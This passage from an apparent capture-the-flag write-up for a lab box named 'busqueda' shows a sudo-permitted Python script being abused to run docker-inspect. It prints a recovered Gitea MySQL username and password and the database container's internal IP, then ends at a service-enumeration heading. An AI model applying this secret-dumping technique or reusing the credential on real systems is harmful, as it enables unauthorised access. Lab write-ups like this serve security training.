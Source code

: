 ```
<SNIP>
```

The output is really long, so I only included the interesting part. It indicates
that Gitea uses MySQL to manage authentication credentials. To do connect to
MySQL, it uses the credentials `gitea`:`yuiu1hoiu4i5ho1uh`.

We have credentials to connect to MySQL, but we still don't know how to connect
to it. Let's retrieve the IP of the `mysql_db` container:

```sh
svc@busqueda:~$ sudo "/usr/bin/python3" "/opt/scripts/system-checkup.py" "docker-inspect" "{{json .NetworkSettings.Networks}}" "mysql_db" | jq
```

```
{
  "docker_gitea": {
    "IPAMConfig": null,
    "Links": null,
    "Aliases": [
      "f84a6b33fb5a",
      "db"
    ],
    "NetworkID": "cbf2c5ce8e95a3b760af27c64eb2b7cdaa71a45b2e35e6e03e2091fc14160227",
    "EndpointID": "daed223b03681bedbebb3869ccabe140641fdf8b80e45116716a089515c64344",
    "Gateway": "172.19.0.1",
    "IPAddress": "172.19.0.3",
    "IPPrefixLen": 16,
    "IPv6Gateway": "",
    "GlobalIPv6Address": "",
    "GlobalIPv6PrefixLen": 0,
    "MacAddress": "02:42:ac:13:00:03",
    "DriverOpts": null
  }
}
```

It's `172.19.0.3`!

We haven't tried the last command argument though, so let's do it.

```sh
svc@busqueda:~$ sudo "/usr/bin/python3" "/opt/scripts/system-checkup.py" "full-checkup"
```

```
Something went wrong
```

We get an error message.

# Host `172.19.0.3`

## Services enumeration
